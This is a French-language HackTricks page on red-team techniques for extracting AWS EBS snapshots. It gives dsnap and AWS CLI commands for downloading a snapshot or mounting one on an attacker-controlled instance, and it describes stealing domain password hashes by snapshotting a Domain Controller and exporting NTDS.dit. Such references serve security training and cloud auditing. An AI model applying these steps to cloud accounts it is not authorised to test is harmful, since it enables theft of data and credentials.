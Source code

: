 # AWS - Extraction de Snapshot EBS

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

### Vérification d'un snapshot localement
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
Pour plus d'informations sur cette technique, consultez la recherche originale sur [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Vous pouvez réaliser cela avec Pacu en utilisant le module [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

### Vérification d'un instantané dans AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Montez-le dans une VM EC2 sous votre contrôle** (elle doit être dans la même région que la copie de la sauvegarde) :

Étape 1 : Créez un nouveau volume de la taille et du type de votre choix en vous rendant dans EC2 –> Volumes.

Pour pouvoir effectuer cette action, suivez ces commandes :
- Créez un volume EBS à attacher à l'instance EC2.
- Assurez-vous que le volume EBS et l'instance sont dans la même zone.

Étape 2 : Sélectionnez l'option "attacher le volume" en cliquant droit sur le volume créé.

Étape 3 : Sélectionnez l'instance depuis la boîte de texte des instances.

Pour pouvoir effectuer cette action, utilisez la commande suivante :
- Attachez le volume EBS.

Étape 4 : Connectez-vous à l'instance EC2 et listez les disques disponibles en utilisant la commande `lsblk`.

Étape 5 : Vérifiez si le volume contient des données en utilisant la commande `sudo file -s /dev/xvdf`.

Si la sortie de la commande ci-dessus indique "/dev/xvdf: data", cela signifie que le volume est vide.

Étape 6 : Formatez le volume au système de fichiers ext4 en utilisant la commande `sudo mkfs -t ext4 /dev/xvdf`. Alternativement, vous pouvez également utiliser le format xfs en utilisant la commande `sudo mkfs -t xfs /dev/xvdf`. Veuillez noter que vous devez utiliser soit ext4, soit xfs.

Étape 7 : Créez un répertoire de votre choix pour monter le nouveau volume ext4. Par exemple, vous pouvez utiliser le nom "newvolume".

Pour pouvoir effectuer cette action, utilisez la commande `sudo mkdir /newvolume`.

Étape 8 : Montez le volume dans le répertoire "newvolume" en utilisant la commande `sudo mount /dev/xvdf /newvolume/`.

Étape 9 : Changez de répertoire pour "newvolume" et vérifiez l'espace disque pour valider le montage du volume.

Pour pouvoir effectuer cette action, utilisez les commandes suivantes :
- Changez de répertoire pour `/newvolume`.
- Vérifiez l'espace disque en utilisant la commande `df -h .`. La sortie de cette commande devrait montrer l'espace libre dans le répertoire "newvolume".

Vous pouvez réaliser cela avec Pacu en utilisant le module `ebs__explore_snapshots`.

### Vérification d'un instantané dans AWS (en utilisant cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

### Copie de l'ombre

Tout utilisateur AWS possédant la permission **`EC2:CreateSnapshot`** peut voler les hachages de tous les utilisateurs du domaine en créant un **snapshot du Contrôleur de Domaine**, en le montant sur une instance qu'ils contrôlent et **en exportant le fichier NTDS.dit et la ruche du registre SYSTEM** pour utilisation avec le projet secretsdump d'Impacket.

Vous pouvez utiliser cet outil pour automatiser l'attaque : [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) ou vous pourriez utiliser une des techniques précédentes après avoir créé un snapshot.


# Références
* https://devopscube.com/mount-ebs-volume-ec2-instance/

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
